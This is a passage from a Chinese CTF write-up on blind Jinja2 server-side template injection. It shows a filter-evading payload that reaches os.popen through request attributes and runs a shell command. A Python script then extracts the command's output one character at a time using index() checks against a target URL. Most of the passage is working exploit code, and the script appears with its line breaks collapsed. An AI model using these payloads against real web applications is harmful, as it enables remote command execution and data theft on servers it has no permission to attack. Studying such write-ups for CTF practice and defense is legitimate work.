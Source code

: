 ![image-20200424105108660](assets/20200424150536.png)

但是最后获取的时候，需要对字符串进行截取，切片已经不能使用了，只能从字符串的方法中查找，可用的恰好有`index`，`find`，可以指定范围查找，比如`index`，指定范围从0开始，结束为1，如果为指定字符串返回正常，不然返回异常。

```none
{%%20if%20((((request|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"mro","_"*2)|join)|list).pop(-1)|attr(("_"*2,"subclasses","_"*2)|join)()).pop(334)|attr(("_"*2,"init","_"*2)|join)|attr(("_"*2,"globals","_"*2)|join)).get('popen')('cat%20Th1s_is_F1114g').read()|string).index('n',0,1)%20%}{%%20endif%20%}
```

使用类似如下的盲注脚本

```none
# -*- coding: utf-8 -*-import requestsdef check(payload):    url = 'http://x.x.x.x:19009/user?name='+payload    r = requests.get(url)    if r.status_code == 200:        return Truepassword  = ''s = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$()<=>{|}_'for i in range(0,40):    for c in s:        payload = '{%%20if%20((((request|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"mro","_"*2)|join)|list).pop(-1)|attr(("_"*2,"subclasses","_"*2)|join)()).pop(334)|attr(("_"*2,"init","_"*2)|join)|attr(("_"*2,"globals","_"*2)|join)).get("popen")("cat%20Th1s_is_F1114g").read()|string).index("'+c+'",'+str(i)+','+str(i+1)+')%20%}{%%20endif%20%}'         if check(payload):            password += c            break    print(password)
```

结果如下

![image-20200424120151112](assets/20200424150543.png)
